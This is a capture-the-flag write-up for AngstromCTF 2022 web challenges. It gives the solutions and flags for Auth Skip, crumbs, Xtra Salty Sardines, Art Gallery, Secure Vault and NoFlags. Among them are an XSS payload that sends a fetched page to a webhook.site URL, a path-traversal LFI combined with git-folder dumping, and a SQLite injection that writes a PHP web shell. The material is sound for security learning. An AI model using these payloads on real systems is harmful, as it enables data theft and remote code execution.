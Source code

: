 ```yaml
---
title: AngstromCTF 2022
description: From AngstromCTF2022
author: to^
date: 2022-05-02 22:25:00 +0700
categories: [WebSec, CTF]
tags: [xss, sqli, rce]     # TAG names should always be lowercase
img_path: /assets/img/angstromctf2022
image:
 src: logo.jpg
 alt: AngstromCTF2022 logo
 width: 1000
 height: 400
---
```


My solution for some web challenges in this competition

## The Flash

Use DOM breakpoints in Chrome devtools, right click on `p` tag and chose `Break on -> subtree modifications` then step over to get flag

> **actf{sp33dy_l1ke_th3_fl4sh}**
{: .prompt-info  }

___

## Auth Skip

set cookie: `user=admin`

> **actf{passwordless_authentication_is_the_new_hip_thing}**
{: .prompt-info  }

___

## crumbs

exploit script:
```py
import requests
import re

TARGET = "https://crumbs.web.actf.co/"

s = requests.Session()
next = ""
for i in range(1002):
    r = s.get(TARGET + next)
    if i == 1001:
        print(r.text)
        break
    next = re.search(r"Go to (.*)", r.text).group(1)
    print(next)
```

> **actf{w4ke_up_to_th3_m0on_6bdc10d7c6d5}**
{: .prompt-info  }

___

## Xtra Salty Sardines

Pay attention to the flowing lines:
```js
const name = req.body.name
    .replace("&", "&amp;")
    .replace('"', "&quot;")
    .replace("'", "&apos;")
    .replace("<", "&lt;")
    .replace(">", "&gt;");
```
I abuse that:

> The `replace()` method returns a new string with some or all matches of a `pattern` replaced by a replacement. The `pattern` can be a string or a `RegExp`, and the replacement can be a string or a function called for each match. If pattern is a **string**, only the **first** occurrence will be replaced.
{: .prompt-tip  }

Payload:
```html
'<></h1><script>var x = new XMLHttpRequest;x = open('GET', '/flag'); x.onload = function() {navigator.sendBeacon('https://webhook.site/8771a7aa-4464-438a-84ac-7311eae5bd87', this.responseText)}; x.send();</script>
```

> **actf{those_sardines_are_yummy_yummy_in_my_tummy}**
{: .prompt-info  }

___

## Art Gallery

LFI in `member` parameter.

> Noted that `/proc/1/cwd/` point to the current working directory in the docker container.
{: .prompt-tip  }

Send the following payload to fetch `Dockerfile`.

```
https://art-gallery.web.actf.co/gallery/?member=../../../../proc/1/cwd/Dockerfile
```

Dockerfile:
```docker
FROM node:17-bullseye-slim

WORKDIR /app
COPY . .
RUN mv git .git
RUN npm ci

ENV PORT=8080

EXPOSE 8080

CMD ["node", "index.js"]
```

The next step is to exploit the `.git` folder using [GitHacker](https://github.com/WangYihang/GitHacker).

After fetching all sources, use `git log` to check log commit.

```
┌─[nguyen@parrot]─[~/LearningSpace/test/result/ec42c41d9bc611be9e22c4092e4828d0]
└──╼ $git log
commit 1c584170fb33ae17a63e22456f19601efb1f23db (HEAD, origin/master, origin/HEAD, master)
Author: imposter <sus@aplet.me>
Date:   Tue Apr 26 21:47:45 2022 -0400

    bury secrets

commit 713a4aba8af38c9507ced6ea41f602b105ca4101
Author: imposter <sus@aplet.me>
Date:   Tue Apr 26 21:44:48 2022 -0400

    remove vital secrets

commit 56449caeb7973b88f20d67b4c343cbb895aa6bc7
Author: imposter <sus@aplet.me>
Date:   Tue Apr 26 21:44:01 2022 -0400

    add program
```

`git checkout` to check a commit.
```
─[✗]─[nguyen@parrot]─[~/LearningSpace/test/result/ec42c41d9bc611be9e22c4092e4828d0]
└──╼ $git checkout 56449caeb7973b88f20d67b4c343cbb895aa6bc7
Previous HEAD position was 1c58417 bury secrets
HEAD is now at 56449ca add program
┌─[nguyen@parrot]─[~/LearningSpace/test/result/ec42c41d9bc611be9e22c4092e4828d0]
└──╼ $ls
error.html  flag.txt  images  index.html  index.js  package.json  package-lock.json
┌─[nguyen@parrot]─[~/LearningSpace/test/result/ec42c41d9bc611be9e22c4092e4828d0]
└──╼ $cat flag.txt 
actf{lfi_me_alone_and_git_out_341n4kaf5u59v}
```

> **actf{lfi_me_alone_and_git_out_341n4kaf5u59v}**
{: .prompt-info  }
___

## Secure Vault

Create an account: `bla:bla` then save the `token` value (jwt of bla account) after that `Delete account`. Then set the cookie value with `token:<jwt token of bla account>` -> return flag.

The reason why it works is due to the following two lines in `index.js`:
```js
const user = users.get(res.locals.user.uid);
res.type("text/plain").send(user.restricted ? user.vault : flag);
```
if we send an old jwt, then `user={}` and `user.restricted=undefined` (because it has been already deleted from `UserStore`).

> **actf{is_this_what_uaf_is}**
{: .prompt-info  }

___

## NoFlags

Dockerfile:

```docker
FROM php:8.1.5-apache-bullseye

COPY printflag /printflag
RUN chmod 111 /printflag
COPY src /var/www/html


RUN chown -R root:root /var/www/html && chmod -R 555 /var/www/html        
RUN mkdir /var/www/html/abyss &&\
    chown -R root:root /var/www/html/abyss &&\
    chmod -R 333 abyss

EXPOSE 80
```
From this file, i figure out following things:
- `printflag` a file with only-executable permission that used to print flag
- `/var/www/html`: readable and executable permission
- `/var/www/html/abyss`: writable and executable permission

=> The target to achieve is RCE using sqlite injection.

Read more from [here](https://twosixtech.com/sqlite-as-a-shell-script/).

payload:

```
');ATTACH DATABASE '/var/www/html/abyss/exp.php' AS exp;CREATE TABLE exp.pwn (dataz text);INSERT INTO exp.pwn (dataz) VALUES ('<?system($_GET["cmd"]); ?>');--
```

Result:

![flag](NoFlags/flag.png)
_flag_

